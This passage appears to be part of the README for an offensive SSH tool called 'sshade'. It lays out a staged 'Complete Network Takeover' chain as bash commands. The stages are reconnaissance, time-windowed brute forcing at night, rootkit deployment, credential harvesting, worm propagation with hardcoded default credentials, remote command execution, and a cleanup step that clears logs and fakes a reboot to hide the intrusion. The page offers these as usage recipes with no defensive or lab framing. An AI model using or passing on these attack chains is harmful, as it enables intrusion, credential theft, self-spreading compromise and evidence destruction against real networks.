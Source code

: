 ### 🌙 **Stealth Operations**
**Recommended for Night Operations:**
```bash
# Time-windowed attacks (2 AM to 6 AM)
python3 sshade.py -t 192.168.1.100 -m brute --time-start 2 --time-end 6

# Stealth rootkit deployment
python3 sshade.py -t 192.168.1.100 --rootkit --time-start 1 --time-end 5
```

### 🧹 **Cleanup Phase**
**Recommended for Exit Strategy:**
```bash
# Complete cleanup with log clearing and fake reboot
python3 sshade.py --self-destruct --clear-logs --fake-reboot
```

## Advanced Attack Chains

### 🎯 **Complete Network Takeover**
```bash
# Phase 1: Reconnaissance
python3 sshade.py -t 192.168.1.0/24 -m discover
python3 sshade.py -t 192.168.1.100 --fingerprint
python3 sshade.py -t 192.168.1.100 -m detect

# Phase 2: Initial Access
python3 sshade.py -t 192.168.1.100 -m brute --time-start 2 --time-end 6

# Phase 3: Persistence
python3 sshade.py -t 192.168.1.100 --rootkit

# Phase 4: Credential Harvesting
python3 sshade.py -t 192.168.1.100 -m credharv --credharv-action wrapper

# Phase 5: Propagation
python3 sshade.py -t 192.168.1.100 --worm

# Phase 6: Cleanup (when done)
python3 sshade.py --self-destruct --clear-logs --fake-reboot
```

### 🕸️ **Worm Network Propagation**
```bash
# Start worm propagation across network
python3 sshade.py -t 192.168.1.100 --worm --worm-username admin --worm-password password123

# Monitor and control via persistence
python3 sshade.py -t 192.168.1.100 -m exec -c "ps aux | grep ssh"
```
